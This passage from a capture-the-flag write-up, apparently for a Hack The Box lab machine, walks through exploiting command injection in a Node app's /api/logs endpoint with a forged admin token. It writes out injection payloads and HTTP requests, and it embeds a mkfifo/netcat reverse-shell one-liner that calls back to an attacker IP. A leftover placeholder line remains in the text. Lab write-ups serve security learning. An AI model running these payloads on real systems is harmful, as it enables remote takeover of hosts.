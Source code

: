 ```html
-------------
RESPONSE
------------

	{
		"role": {
			"role": "you are admin",
			"desc": "this is only for admin"
		}
	}

```
Great we are now admin. Now lets see what we can do with this. If we go back the the `local_web/routes/private.js` we see that it's possible to view logs there. The check looks like the following:
INSERT CODE FROM LOGS BIT
We see that if our token says admin, we can get logs by the service trying to run `git logs $file`. Now there is two logical places that it will recive the command. In the json content of the GET request, or in the url. So lets craft a request and see which hit we get.

```html
GET /api/logs/?file=0;whoami HTTP/1.1
Host: 10.10.11.120:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type:application/json
Auth-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjA1ODk0OTAxMjkxYzA0NjRkZmRmMTYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6IlRHQ0Bub3doZXJlLmNvbSIsImlhdCI6MTY0NDUzMDA3MH0.9mP1WrnMqAlNANivAR19Cn6vNTaPF_MBgTvOSYd9zow
Content-Length: 6

{
	"file"="0; pwd"
}
```
The respons I got was `\ndasith`. This means that it got a hit at the URL. So it gets the command there. Head over to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and find a reverseshell oneliner that suites you.
I was only able to get: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f` to work so I will be showcasing this.
Start a reverse tcp listener `nc -nvlp 8080`
```html
GET /api/logs/?file=0;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.231 8080 >/tmp/f HTTP/1.1
Host: 10.10.11.120:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type:application/json
Auth-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjA1ODk0OTAxMjkxYzA0NjRkZmRmMTYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6IlRHQ0Bub3doZXJlLmNvbSIsImlhdCI6MTY0NDUzMDA3MH0.9mP1WrnMqAlNANivAR19Cn6vNTaPF_MBgTvOSYd9zow
Content-Length: 6

{

```